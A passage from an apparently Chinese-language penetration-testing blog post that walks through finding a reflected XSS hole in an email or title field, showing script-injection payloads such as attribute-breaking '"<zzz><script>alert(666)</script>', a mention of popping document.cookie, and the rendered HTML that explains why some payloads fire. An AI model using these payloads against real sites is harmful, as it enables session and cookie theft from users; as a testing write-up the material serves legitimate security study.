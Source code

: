 3、特定的title  
  
看一下这个页面，可以直接插入payload测试出是否会包含在html页面中  
  
```
locks@qq.com<script>alert('XSS')</script>
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ELQKhUzr34z3L9iccnsUsIIwUkhF2xwAfeTgzULHTdYCvLcIJPBwUJlUNVgLicJkecPDAS8gaEOLZ2yzu6meZahg/640?wx_fmt=png&from=appmsg "")  
  
  
可以看到在XSS中的单引号转义，这种情况我一般直接去掉单引号  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ELQKhUzr34z3L9iccnsUsIIwUkhF2xwAfAKe8Xlaa37V1CO3aDnBD7JrNDWXupvXUa28tSAZ9fV6b7AQ5KhNC7w/640?wx_fmt=png&from=appmsg "")  
  
  
发现还是被上面参数包裹，现在就是要闭合上面的，跳出来进行执行语句  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ELQKhUzr34z3L9iccnsUsIIwUkhF2xwAfV2tgXvFBxCrBK383rGpWMtlFD7DpZ4eKoHfela6hdibAyCSIkzqCicCQ/640?wx_fmt=png&from=appmsg "")  
  
  
locks未弹窗  
```
"<zzz><script>alert(locks)</script>
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ELQKhUzr34z3L9iccnsUsIIwUkhF2xwAfImtpSibAJNPP1IjxUbUZdd7D8mMpXSR1Wiaiau0ibIXX4Nu72TPMaISoUg/640?wx_fmt=png&from=appmsg "")  
  
  
数字却弹窗了  
  
```
"<zzz><script>alert(666)</script>
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ELQKhUzr34z3L9iccnsUsIIwUkhF2xwAftUD6jS8LTlLp7weE7IcxNM9HL2WoKibIfoT2nqCiaHzrK7jJyibwicKQhw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ELQKhUzr34z3L9iccnsUsIIwUkhF2xwAfibGmuaibBYbVNMykH2FA7piahAC5O86vt5MpV8Xw2ApDd3fBe2NP5E2rQ/640?wx_fmt=png&from=appmsg "")  
  
  
用document.cookie弹出cookie  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ELQKhUzr34z3L9iccnsUsIIwUkhF2xwAfxibNfXibUkeym94OaRUhElfu9XMDic0ZEiaFCFqOsKU9zic3t2Snmz5tOaQ/640?wx_fmt=png&from=appmsg "")  
  
  
分析为什么字符不弹，数字却弹窗了  
```
<input type="text" name="email" value="testing@example.com\" <zzz=""><script>alert(666)</script>" class="input-block-level" placeholder="E-Mail address" /&gt;
```  
  
将payload插入到元素的value属性中。这种情况下，脚本并不会执行，因为value属性的值不会被解释为JavaScript代码。  
  
使用  
```
`<script>alert(locks)</script>
```  
  